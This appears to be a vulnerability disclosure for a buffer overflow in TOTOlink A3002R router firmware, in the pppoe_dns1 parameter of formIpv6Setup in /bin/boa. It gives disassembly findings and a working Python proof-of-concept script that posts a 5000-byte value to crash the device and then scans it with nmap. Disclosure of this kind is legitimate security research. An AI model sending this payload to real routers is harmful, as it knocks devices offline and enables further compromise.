 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `pppoe_dns1` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v39` variable is passed to `v51` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `pppoe_dns1` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`pppoe_dns1`" data, and `strcpy` copies the string pointed to by `v39` to `v51` without verifying whether `v51` has enough space to store the copied string. If the string pointed to by `v39` exceeds the size of the `v51` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=0&enable_dhcpv6RapidCommit=1&&pppoe_dns1={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
